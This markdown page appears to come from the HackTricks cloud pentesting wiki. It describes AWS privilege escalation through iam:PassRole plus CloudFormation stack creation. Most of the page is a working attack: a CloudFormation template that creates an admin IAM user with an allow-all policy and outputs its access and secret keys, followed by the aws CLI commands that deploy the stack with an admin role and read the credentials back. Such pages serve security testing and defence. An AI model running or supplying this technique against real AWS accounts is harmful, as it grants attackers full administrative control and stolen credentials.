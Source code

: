 # iam:PassRole, cloudformation:CreateStack,and cloudformation:DescribeStacks

{{#include ../../../../banners/hacktricks-training.md}}

An attacker could for example use a **cloudformation template** that generates **keys for an admin** user like:

```json
{
  "Resources": {
    "AdminUser": {
      "Type": "AWS::IAM::User"
    },
    "AdminPolicy": {
      "Type": "AWS::IAM::ManagedPolicy",
      "Properties": {
        "Description": "This policy allows all actions on all resources.",
        "PolicyDocument": {
          "Version": "2012-10-17",
          "Statement": [
            {
              "Effect": "Allow",
              "Action": ["*"],
              "Resource": "*"
            }
          ]
        },
        "Users": [
          {
            "Ref": "AdminUser"
          }
        ]
      }
    },
    "MyUserKeys": {
      "Type": "AWS::IAM::AccessKey",
      "Properties": {
        "UserName": {
          "Ref": "AdminUser"
        }
      }
    }
  },
  "Outputs": {
    "AccessKey": {
      "Value": {
        "Ref": "MyUserKeys"
      },
      "Description": "Access Key ID of Admin User"
    },
    "SecretKey": {
      "Value": {
        "Fn::GetAtt": ["MyUserKeys", "SecretAccessKey"]
      },
      "Description": "Secret Key of Admin User"
    }
  }
}
```

Then **generate the cloudformation stack**:

```bash
aws cloudformation create-stack --stack-name privesc \
    --template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
    --role arn:aws:iam::[REDACTED]:role/adminaccess \
    --capabilities CAPABILITY_IAM --region us-west-2
```

**Wait for a couple of minutes** for the stack to be generated and then **get the output** of the stack where the **credentials are stored**:

```bash
aws cloudformation describe-stacks \
    --stack-name arn:aws:cloudformation:us-west2:[REDACTED]:stack/privesc/b4026300-d3fe-11e9-b3b5-06fe8be0ff5e \
    --region uswest-2
```

### References

- [https://bishopfox.com/blog/privilege-escalation-in-aws](https://bishopfox.com/blog/privilege-escalation-in-aws)

{{#include ../../../../banners/hacktricks-training.md}}




